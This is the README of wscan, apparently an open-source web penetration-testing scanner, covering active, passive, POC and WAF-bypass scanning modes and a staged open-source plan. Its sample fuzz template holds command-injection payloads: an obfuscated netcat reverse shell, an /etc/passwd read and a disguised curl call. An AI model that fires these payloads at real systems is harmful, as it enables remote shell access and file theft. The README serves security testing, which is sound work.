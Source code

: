 [**中文**](README.md)
# wscan
Wscan is a web security scanner that focuses on WEB security. It pays homage to Nmap, which has been open source for 25 years. We also plan to continuously update and keep Wscan open source for the next 25 years. We welcome anyone interested in web security to join our development team.

Our goal is to develop a tool for penetration testing using machine learning. Unlike other tools, our tool can automatically learn attack and defense patterns and launch personalized attacks based on specific targets. This way, our attack efficiency and accuracy will be significantly improved, while also reducing the probability of false positives.

Our tool employs machine learning technology to achieve fully automated web penetration testing. This means there is no need for manual addition and update of rules and signatures; it can automatically learn and adapt to new attack patterns and vulnerabilities.

Machine learning technology can also quickly process large amounts of data and traffic, thereby greatly improving testing efficiency and accuracy. In addition, it can identify and discover vulnerabilities and weaknesses that are difficult for humans to perceive, thus enhancing testing quality and reliability.

We believe that using machine learning technology for penetration testing will be a crucial direction for the future of network security. We hope that our tool can help more people safeguard network security and contribute to the field of network security.
![](https://ctstack-oss.oss-cn-beijing.aliyuncs.com/tool/github/9f9e48711df62c154bde487c989dd3a9.gif)
# Example Usage 
⬇️[Download Link](https://github.com/chushuai/wscan/releases) [🏠BestPractices](https://github.com/chushuai/wscan/blob/main/doc/BestPractices.md)
```
(1) Active Scan
./wscan  --log-level=debug ws --basic-crawler http://testphp.vulnweb.com/ --json-output=wscan_scan_result.json --html-output=wscan_scan_result.html
./wscan  --log-level=debug ws --browser  http://testphp.vulnweb.com/ --html-output=wscan_scan_result.html
./wscan  --log-level=debug ws --url http://testphp.vulnweb.com/listproducts.php?cat=1  --json-output=wscan_scan_result.json
./wscan  --log-level=debug ws --url-file=/wscan/url_file.txt --html-output=wscan_scan_result.html
./wscan  --log-level=debug ws --poc=/your_wscan_poc/wscan-poc/pocs/* --url http://testphp.vulnweb.com/ --html-output=wscan_scan_result.html

(2) Passive Scan
./wscan  --log-level=debug ws --listen=127.0.0.1:1000 --json-output=wscan_scan_result.json  

(3）POC Scan
    3.1 POC download address https://github.com/chushuai/wscan-poc/releases
    3.2 When Wscan is first run, a file named config.yaml will be generated. You need to modify the following content in this file to specify the path of include_poc.
        prometheus:
            enabled: true
            depth: 1
            auto_load_poc: false
            include_poc:
                - C:\wscan_windows_amd64.exe\wscan-poc-1.0.0\pocs\*.yml
            exclude_poc: [] 
    3.3 Enable --plug=prometheus via command line, and specify the absolute path of --url-file (one URL per line) to conduct large-scale POC detection.
        ./wscan --log-level=debug ws --plug=prometheus  --url-file=/url_file.txt  --html-output=wscan_scan_result.html
(4) Custom web general vulnerability scanning template (Waf bypass/Waf testing)
    4.1 Unlike POC testing, the custom web general vulnerability scanning plugin will perform FUZZ on the parameters at the specified location.
        Sample reference https://github.com/chushuai/wscan/tree/main/core/plugins/custom_tmpl/tmpl/owasp
        Plugin sample
        ---
        payload:
          - $(printf 'hsab/nib/ e- 4321 1.0.0.721 cn'|rev)
          - /etc/passwd
          - "`curl -L http://\u24BC\u24C4\u24C4\u24BC\u24C1\u24BA.\u24B8\u24C4\u24C2`"
        encoder:
          - URL
        placeholder:
          - URLParam
          - HTMLForm
          - HTMLMultipartForm
          - JSONRequest
        type: "RCE"
        ...
    4.2 You need to modify the following content in the config.yaml file to specify the path of include_tmpl.
        enabled: true
        depth: 0
        auto_load_tmpl: false 
        include_tmpl:
          - /wscan/core/plugins/custom_tmpl/tmpl/owasp/*.yml
        exclude_tmpl: [ ]
        block_status_codes: # When blocked by WAF, the HTTP status code list, default value is 403
          - 403
        pass_status_codes: # When not blocked by WAF, the HTTP status code list, default value is 200 or 404
          - 200
          - 404
        block_regex: "" # Regular expression for web pages blocked by WAF
        pass_regex: "" # Regular expression for web pages not blocked by WAF
        non_blocked_as_passed: false
    4.3 Enable --plug=custom_tmpl via command line to conduct custom Payload testing on the target website.
        ./wscan --log-level=debug ws --plug=custom_tmpl  --browser  http://testphp.vulnweb.com/  --html-output=wscan_scan_result.html
(5) Independent deployment of anti-connection module
./wscan  reverse
```


# The open-source schedule is outlined as follows  
Wscan's goal is to create an open-source and non-profit project. However, due to the substantial workload involved in Wscan,
the code is still undergoing rapid iterations. Premature open-sourcing may lead to the emergence of various modified versions, 
which is not conducive to the tool's dissemination and the future development of the project. 
Therefore, the plan is to open-source the project in stages and modules, using Stars as a metric, 
to ensure the robustness of the project and organized community participation.

1.  YAML POC Scan Module (Open source when Stars > 400)  
2.  Reverse Connection Module (Open source when Stars > 400)  
3.  SQL Injection Module (Open source when Stars > 500)  
4.  Dynamic Crawler (Open source when Stars > 600)  
5.  Directory Scan Module (Open source when Stars > 700)  
6.  Baseline Scan (Open source when Stars > 800)  
7.  Plugin Scheduling Module Based on Message Subscription (Open source when Stars > 900)  
8.  HTTP Parameter Deformation Module; Traditional Scan Modules All Open Source; Users can modify, compile, and build scanners on their own (Open source when Stars > 1k)  
9.  Machine Learning Module to Reduce False Positives (Open source when Stars > 3k)  
10. Machine Learning Module for Automatic Payload Generation (Open source when Stars > 4k)  

# Star History

[![Star History Chart](https://api.star-history.com/svg?repos=chushuai/wscan,chaitin/xray,projectdiscovery/nuclei&type=Date)](https://star-history.com/#chushuai/wscan&chaitin/xray&projectdiscovery/nuclei&Date)